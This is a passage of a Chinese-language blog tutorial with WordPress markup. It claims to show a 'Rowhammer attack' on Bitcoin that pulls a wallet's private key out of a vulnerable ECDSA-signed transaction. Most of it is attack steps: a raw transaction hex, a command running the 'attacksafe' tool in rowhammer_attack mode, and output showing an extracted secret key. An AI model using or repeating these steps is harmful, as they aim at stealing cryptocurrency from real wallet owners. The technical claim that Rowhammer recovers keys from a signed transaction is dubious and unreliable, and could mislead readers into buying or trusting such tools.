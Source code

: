 
<p>然後選擇<code>&nbsp;-tool: rowhammer_attack</code></p>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-125-1024x275.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1200"/></figure>



<p>我們發起了這次攻擊<code>-tool rowhammer_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-126-1024x493.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1203"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>


